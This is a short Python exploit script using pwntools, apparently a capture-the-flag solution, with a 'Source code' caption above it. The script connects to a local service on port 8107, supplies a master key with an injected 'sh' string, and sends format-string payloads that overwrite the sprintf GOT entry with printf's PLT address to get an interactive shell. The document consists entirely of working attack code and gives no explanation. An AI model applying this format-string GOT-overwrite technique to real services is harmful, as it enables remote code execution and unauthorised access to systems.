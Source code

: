```python
password = b'XXXXXXXXXXXXXXXX'
sprintf_plt = 0x8048650
sprintf_got = 0x804a03c
printf_plt = 0x8048570

r = remote('172.17.0.2', 8107)
pause()

r.sendlineafter(b'Input floor > ', b'3')
r.sendlineafter(b'Room number > ', b'5')
r.sendafter(b'Input master key > ', password+b'\x0ash\x00')

r.sendlineafter(b'> ', b'1')
r.sendafter(b'Input master key > ', password+b'\x0ash\x00')
buf = b'%'+str(sprintf_got-12).encode()+b'c%9$n'
r.sendafter(b'Your name > ', buf)

r.sendlineafter(b'> ', b'1')
r.sendafter(b'Input master key > ', password+b'\x0ash\x00')
buf = b'%'+str(printf_plt-12).encode()+b'c%21$n'
r.sendafter(b'Your name > ', buf)

r.sendlineafter(b'> ', b'1')
r.sendafter(b'Input master key > ', password+b'\x0ash\x00')

r.interactive()
```